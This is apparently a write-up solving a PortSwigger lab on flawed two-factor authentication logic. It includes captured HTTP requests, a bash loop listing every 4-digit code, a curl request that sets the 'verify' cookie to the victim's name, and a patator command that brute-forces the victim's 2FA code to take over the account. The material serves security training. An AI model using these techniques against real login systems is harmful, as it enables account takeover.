# [Lab 8: 2FA broken logic](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic)

## Description

This lab's two-factor authentication is vulnerable due to its flawed logic. To solve the lab, access Carlos's account page.

-   Your credentials: `wiener:peter`
-   Victim's username: `carlos`

You also have access to the email server to receive your 2FA verification code.

---

## Solution

Navigate to the web page and capture a login request as `wiener:peter`.

```http
POST /login HTTP/1.1
Host: ac501f8b1f6563b2809e38c4002a00d2.web-security-academy.net
Cookie: session=wkevl7kXctNuoCMTVuBgj6LQJSkoC5mj; verify=wiener
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://ac501f8b1f6563b2809e38c4002a00d2.web-security-academy.net
Dnt: 1
Referer: https://ac501f8b1f6563b2809e38c4002a00d2.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

username=wiener&password=peter
```

Use the email client functionality to obtain the 2FA code. Capture the 2FA code submission request.

```http
POST /login2 HTTP/1.1
Host: ac501f8b1f6563b2809e38c4002a00d2.web-security-academy.net
Cookie: session=GurypBaOfl4cvu067ULHDfl3phLJm891; verify=wiener
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: https://ac501f8b1f6563b2809e38c4002a00d2.web-security-academy.net
Dnt: 1
Referer: https://ac501f8b1f6563b2809e38c4002a00d2.web-security-academy.net/login2
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

mfa-code=0386
```

It appears that upon visiting the website, a cookie `session` is given by the server. This `session` cookie is submitted along with the first login request, but further testing shows that it is actually not checked by the server at all.

Upon a successful login request, the server issues two new cookies to the client: `session` and `verify`. The `session` cookie is just a random string that is different from the first `session` cookie. The `verify` cookie is the username whose account's first authentication factor was just successfully verified by the server. The client makes a `GET` request to `/login2` with the cookie `verify`, triggering the sending of an 2FA code.

These two cookies are sent along with the submission of the second authentication factor. The `session` cookie does not appear to be checked by the server, but the `verify` cookie is used to designate the account whose second authentication factor is being checked.

This means that the second authentication factor endpoint, `/login2`, accepts a POST request with two parameters: a cookie named `verify` that contains the username of the account attempting to be accessed and 4-character 2FA code (`mfa-code`). Since the `session` cookie isn't checked by the server, the `verify` cookie can be easily changed to any username. This allows an attacker to easily bypass the first authentication factor and brute force the 4-character 2FA code of any user.

Generate the list of all possible 4-character numeric codes.

```bash
for i in {0000..9999}; do echo $i >> codes.txt; done
```

Note that an incorrect 2FA code results in a response that contains the string `Incorrect security code`.

![](images/Pasted%20image%2020210811140651.png)

Submit a `GET` request to `/login2` with `verify=carlos` to generate a 2FA token for `carlos`'s account.

```http
curl --cookie "verify=carlos; HttpOnly" https://ac501f8b1f6563b2809e38c4002a00d2.web-security-academy.net/login2
```

Brute force `carlos`'s 2FA code to get into his account.

```bash
patator http_fuzz url=https://ac501f8b1f6563b2809e38c4002a00d2.web-security-academy.net/login2 method=POST header='Cookie: verify=carlos; HttpOnly' body='mfa-code=FILE0' 0=codes.txt -x ignore:fgrep='Incorrect security code'
```

This reveals `carlos`'s 2FA code as 1197 (in this instance). Submit the following request to obtain a `session` cookie that will be able to access `carlos`'s account.

```http
POST /login2 HTTP/1.1
Host: ac501f8b1f6563b2809e38c4002a00d2.web-security-academy.net
Cookie: session=yphWLlfkB0j0xkVHnp5HvtNmapiNsMKc; verify=carlos
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: https://ac501f8b1f6563b2809e38c4002a00d2.web-security-academy.net
Dnt: 1
Referer: https://ac501f8b1f6563b2809e38c4002a00d2.web-security-academy.net/login2
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

mfa-code=1197
```

Use that `session` cookie to access `carlos`'s account.

```http
GET /my-account HTTP/1.1
Host: ac501f8b1f6563b2809e38c4002a00d2.web-security-academy.net
Cookie: session=qgz2gNwzhAUuBeltXFdnvjQIsS9JQB9F; verify=carlos
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: https://ac501f8b1f6563b2809e38c4002a00d2.web-security-academy.net
Dnt: 1
Referer: https://ac501f8b1f6563b2809e38c4002a00d2.web-security-academy.net/login2
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
```
